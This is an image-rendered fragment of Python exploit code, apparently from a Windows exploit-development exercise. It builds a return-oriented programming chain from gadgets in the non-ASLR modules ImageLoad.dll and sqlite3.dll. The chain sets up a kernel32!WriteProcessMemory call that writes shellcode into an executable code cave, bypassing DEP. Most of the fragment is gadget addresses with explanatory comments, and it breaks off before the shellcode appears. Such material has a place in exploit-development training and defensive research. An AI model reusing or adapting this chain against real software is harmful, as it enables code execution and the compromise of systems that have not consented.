 ```python
crash += struct.pack('<L', 0x10015eb4)    # add esp, 0x1c ; ret: ImageLoad.dll (non-ASLR enabled module)

# kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x1004d1ec)    # Pointer to kernel32!GetStartupInfoA (no pointers from IAT directly to kernel32!WriteProcessMemory, so loading pointer to kernel32.dll and compensating later.)
crash += struct.pack('<L', 0x61c72530)    # Return address parameter placeholder (where function will jump to after execution - which is where shellcode will be written to. This is an executable code cave in the .text section of sqlite3.dll)
crash += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
crash += struct.pack('<L', 0x61c72530)    # lpBaseAddress = pointer to where shellcode will be written to. (0x61C72530 is an executable code cave in the .text section of sqlite3.dll) 
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)

# Starting with lpBuffer (shellcode location)
# ECX currently points to lpBuffer placeholder parameter location - 0x18
# Moving ECX 8 bytes before EAX, as the gadget to overwrite dword ptr [ecx] overwrites it at an offset of ecx+0x8
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)

# Pointing EAX (shellcode location) to data inside of ECX (lpBuffer placeholder) (NOPs before shellcode)
crash += struct.pack('<L', 0x1001fce9)    # pop esi ; add esp + 0x8 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xfffffd44)    # Shellcode is about negative 0xfffffd44 bytes away from EAX
```